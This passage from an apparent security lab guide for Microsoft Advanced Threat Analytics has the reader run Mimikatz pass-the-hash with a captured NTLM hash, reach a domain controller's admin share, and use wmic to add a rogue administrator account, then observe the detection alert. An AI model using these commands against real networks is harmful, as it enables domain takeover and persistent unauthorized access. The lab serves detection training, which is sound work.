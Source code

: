2.   From the **Administrator: Command Prompt** window, run the following:

```
notepad task5.txt
```

3.   Review the content of the file in Notepad and note the entries corresponding to the **ADATUM\\Administrator** account. While they do not include the clear text password (that entry should be null), they do contain the NTLM hash. Copy the value of the hash into Clipboard. 
4.   From the **Administrator: Command Prompt** window, run the following as a single command (make sure to replace the placeholder `<hash_value>` with the value of the NTLM hash you copied into Clipboard):

```
Mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /ntlm:<hash_value> /domain:adatum.com" "exit"
```

5.   This will open a new Command Prompt window. From the newly opened Command Prompt window, run the following:

```
whoami
```

6.   Note that you are still operating as the **ADATUM\\Ida**. Now, in the same Command Prompt window, run the following:

```
dir \\lon-dc1.adatum.com\c$
```

7.   Note that you are able to list the content of the default administrative share on the domain controller, which implies that you are operating as a member of the domain local Administrators group. Now that you have administrative privileges to the domain controller, you will create a new user account and add it to the domain local Administrators group. To accomplish this, in the same Command Prompt window, run the following:

```
wmic /node:"lon-dc1" process call create "net user /add user01 Pa55w.rd"
wmic /node:"lon-dc1" process call create "net localgroup Administrators user01 /add"
```

8.   To verify that the commands have been completed successfully, in the same Command Prompt window, run the following:

```
net localgroup administrators /domain
```

9.   Switch to the Internet Explorer window displaying the **Health** page of the ATA Center console. You should see another alert labeled **Remote execution attempt detected** representing the commands you ran from the Command Prompt in this task.
10.   Click the **Remote execution attempt detected** label. This will display details of the event. Examine the displayed information. 
11.   Click the back arrow icon in the upper left corner of Internet Explorer to return to the listing of the alerts.


#### Task 6: Establishing Domain Dominance by compromising KRBTGT credentials and generating Golden Ticket
